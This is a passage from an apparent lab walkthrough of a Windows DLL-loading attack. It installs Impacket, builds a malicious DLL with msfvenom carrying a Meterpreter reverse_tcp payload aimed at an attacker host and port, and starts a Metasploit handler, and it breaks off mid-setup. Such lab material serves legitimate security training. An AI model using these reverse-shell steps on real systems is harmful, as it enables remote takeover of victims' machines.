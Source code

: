 ```
Install Impacket

root@attackbox:~/Desktop/pn/impacket# python setup.py install 
... 
Finished processing dependencies for impacket==0.9.24.dev1+20210704.162046.29ad5792
```

If you see a similar message to the one above, then you're golden. Before spinning up Metasploit, create the malicious DLL. 

Note: In the terminal outputs below the victim is 192.168.0.200 and the attacker is 192.168.0.100.  You will need to replace 192.168.0.100 with your ATTACK BOX IP (or OpenVPN IP) and 192.168.0.200 with the victim 10.10.118.174.

You will use msfvenom to create the malicious DLL. 

```
Create malicious DLL with Msfvenom

root@attackbox:~/Desktop/pn# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
Saved as: /root/Desktop/share/malicious.dll
```

If you see a similar output when you run this command, then you should have successfully created the DLL.

Let's fire up Metasploit.

```
Launch Metasploit

root@attackbox:~/Desktop/pn# msfconsole 
=[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: To save all commands executed since start up to a file, use the makerc command

msf5 >
```

Once Metasploit successfully loads, you need to configure the handler to receive the incoming connection from the malicious DLL. 

Run the following commands options:

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost VALUE 
    set lport VALUE
